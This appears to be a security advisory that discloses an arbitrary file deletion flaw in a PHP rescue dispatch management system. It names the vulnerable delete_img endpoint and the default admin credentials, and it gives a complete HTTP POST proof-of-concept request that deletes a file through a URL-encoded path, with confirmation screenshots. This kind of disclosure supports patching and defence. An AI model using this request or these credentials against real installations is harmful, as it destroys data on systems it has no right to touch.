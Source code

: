 # Rescue Dispatch Management System v1.0 by oretnom23 has Delete any file

vendors: https://www.sourcecodester.com/php/15296/rescue-dispatch-management-system-phpoop-free-source-code.html

Vulnerability File: /rdms/classes/Master.php?f=delete_img

Vulnerability location: /rdms/classes/Master.php?f=delete_img, path

The password for the backend login account is: admin/admin123

Payload:

Here we delete the shell.php file in the root directory

```sql
POST /rdms/classes/Master.php?f=delete_img HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/rdms/admin/?page=system_info
Content-Length: 45
Cookie: PHPSESSID=hkbchcmaitn0d8enhm4jtdjk9q
Connection: close

path=C%3A%2Fxampp%2Fhtdocs%2Frdms%2Fshell.php
```

The file path needs to be encoded by url

![image](https://user-images.githubusercontent.com/54017627/170451208-27e18700-0846-4c82-898c-2f7966709498.png)

Currently, when we do not send a request to delete the shell.php file, the shell.php file is still in the root directory of the website

![image](https://user-images.githubusercontent.com/54017627/170451437-2b455a27-0186-458a-afa0-e53bae81acca.png)

The response package shows that the deletion was successful. Let's go to the root directory to see if the shell.php file still exists.

![image](https://user-images.githubusercontent.com/54017627/170451510-e563499e-33f0-4467-9fee-d462c9ea59a4.png)

By this time, shell.php has been deleted.

![image](https://user-images.githubusercontent.com/54017627/170451573-6535fd73-46e8-4720-bac9-72c8cf8adefc.png)
